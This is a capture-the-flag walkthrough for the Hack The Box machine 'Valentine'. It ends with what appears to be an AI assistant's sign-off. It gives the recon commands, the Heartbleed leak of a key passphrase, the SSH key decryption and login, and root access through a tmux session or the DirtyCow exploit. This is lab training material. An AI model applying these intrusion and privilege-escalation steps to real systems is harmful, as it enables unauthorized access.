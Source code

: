 ## 💘 HTB: Valentine Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

Valentine is an easy Linux box that demonstrates how memory leaks from vulnerabilities like Heartbleed can expose sensitive credentials. It requires a combination of exploit crafting, crypto handling, and privilege escalation via known Linux kernel exploits.

---

### 🔍 Recon & Enumeration

**Nmap Basic Scan:**
```bash
nmap -sC -sV -p- 10.10.10.79
```

Identified open ports:
- **80 [HTTP](HTTP)**: Apache/2.2.22 (Ubuntu)
- **443 (HTTPS)**: Vulnerable OpenSSL (Heartbleed, CVE-2014-0160)

**Nmap Vuln Scripts:**
```bash
nmap -p 80,443 --script vuln 10.10.10.79
```

Identified vulnerabilities:
- **Heartbleed (CVE-2014-0160)**
- **SSL POODLE (CVE-2014-3566)**
- **CCS Injection (CVE-2014-0224)**

Interesting directories:
- `/dev/`
- `/index/`

---

### 💔 Heartbleed Exploitation

Using a public Heartbleed exploit script, dump memory:

Search for base64 strings in the dump. One string found:
```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
Decoded:
```bash
heartbleedbelievethehype
```

---

### 📁 Web Directory Discovery

Accessing `/dev/`, locate a file named `hype_key` — an encrypted private key in hexdump format.

Steps:
```bash
xxd -r hype_key > hype.key
openssl rsa -in hype.key -out decrypted.key
```
When prompted, enter password: `heartbleedbelievethehype`

---

### 🔐 SSH Access

Attempt SSH with:
```bash
chmod 600 decrypted.key
ssh -i decrypted.key hype@10.10.10.79
```
If encountering `no mutual signature supported` error, use:
```bash
ssh -oPubkeyAcceptedAlgorithms=+ssh-rsa -i decrypted.key hype@10.10.10.79
```

---

### ⬆️ Privilege Escalation

#### Method 1: Tmux Session (Preferred)
- Check for running tmux sessions as root.
- Attach to existing root session:
```bash
tmux attach
```

#### Method 2: DirtyCow Kernel Exploit
- Upload `40839.c` to target
- Compile:
```bash
gcc 40839.c -o cowroot -pthread
```
- Execute to create root user `firefart`
- Switch user:
```bash
su firefart
```

---

### 🏁 Summary
- **Initial Access:** Exploit Heartbleed to extract passphrase
- **Lateral Movement:** Decrypt private SSH key for `hype`
- **Privilege Escalation:** Attach root tmux or use DirtyCow

---

Let me know if you'd like this turned into a PDF, or if you want visual diagrams for the two privilege escalation paths!

